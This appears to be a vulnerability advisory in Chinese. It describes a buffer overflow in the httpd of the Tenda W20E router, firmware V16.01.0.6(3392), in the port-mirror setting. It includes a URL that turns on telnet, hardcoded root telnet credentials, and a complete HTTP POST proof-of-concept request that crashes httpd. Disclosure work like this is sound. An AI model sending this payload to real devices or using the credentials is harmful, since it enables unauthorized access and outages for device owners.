



# Tenda W20E 缓冲区溢出漏洞
## Overview
- 厂商官网：https://www.tenda.com.cn/
- 固件下载地址：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
tenda W20E V16.01.0.6(3392)中存在缓冲区溢出漏洞，可导致httpd崩溃并重启。
## Affected version


该图显示了最新的固件:V16.01.0.6(3392)

## Vulnerability details
开启telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

使用ida分析httpd，在函数formSetPortMirror中，对应的功能字段是SetPortMirror。


在函数formSetPortMirror:


该程序将通过portMirrorMirroredPorts参数获得的内容传递给pMirroredPorts。然后，通过sprintf函数将pMirroredPorts的匹配内容格式化为sMibValue。
这里没有大小检查，因此存在通过portMirrorMirroredPorts字段导致缓冲区溢出的漏洞。

相应的网页如下:



## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

功能数据包如下，我们将使用它来构建poc。

```http
POST /goform/module?1668753675738 HTTP/1.1
Host: 192.168.0.1
Content-Length: 95
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=; bLanguage=cn; sessionid=W20Ev5:0.133.2:f012ed
Connection: close

{"setPortMirror":{"portMirrorEn":true,"portMirrorLanPort":4,"portMirrorMirroredPorts":"1,0,0a*200"}}
```

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1.连接物理设备
2.用POC攻击

poco和攻击结果如下



进行第二次攻击:



图中显示了POC攻击的效果，二进制程序httpd重新启动，因为进程id发生了改变。


## CVE-ID
unsigned